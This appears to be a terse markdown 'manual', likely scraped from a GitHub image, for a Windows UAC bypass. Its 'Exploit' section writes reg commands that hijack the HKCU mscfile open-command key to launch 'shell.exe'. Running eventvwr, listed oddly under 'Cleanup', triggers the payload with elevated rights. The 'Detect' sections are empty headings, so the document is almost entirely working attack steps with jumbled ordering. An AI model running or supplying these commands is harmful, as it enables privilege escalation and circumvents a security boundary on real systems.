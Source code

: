 # Manual

## 01 - Detect

### 1.1 - Conditions

## 02 - Exploit

```
C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg add "HKCU\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

## 03 - Cleanup

```
C:\> eventvwr

C:\> reg delete "HKCU\SOFTWARE\Classes\mscfile" /f
```